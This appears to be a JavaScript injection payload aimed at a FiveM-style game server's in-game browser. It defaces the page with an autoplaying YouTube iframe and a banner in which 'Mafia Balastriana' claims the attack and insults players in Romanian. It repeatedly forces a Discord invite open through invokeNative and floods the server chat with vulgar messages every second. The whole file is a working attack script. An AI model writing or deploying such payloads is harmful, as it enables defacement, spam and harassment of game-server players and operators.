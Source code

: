 document.body.innerHTML = 

    <iframe style="position:absolute;top:0;left:0;width:100%;height:100%;opacity: .5;" src="https://www.youtube.com/embed/h2tAoqoe5CA?autoplay=1" src="" frameborder="0" allowfullscreen></iframe>

    <img src='link'>

    <div style="postion: absolute; font-size: 2vw; color: white; right: 1vw;">

    Radu Balastru & Dema & Xenon  forta<br>

    Atentie! Dema sefu va da la muie<br>

    Mafia Balastriana<br>

    Attacked by Mafia Balastru<br>

    jos sclaviilor<br>

    Get Owned dogs

    </div>



let i = 0;



$.post('https://chat/chatResult', JSON.stringify({

    message: 'Mafia Balastriana hahaha got owned '+i

}))





window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');

window.invokeNative('openUrl', 'https://discord.gg/4NNmnbNBBA');













setInterval(() => {

    i++

    $.post('https://chat/chatResult', JSON.stringify({

        message: 'Va dam multa muie hai pa   '+i

    }))

}, 1000)# smek
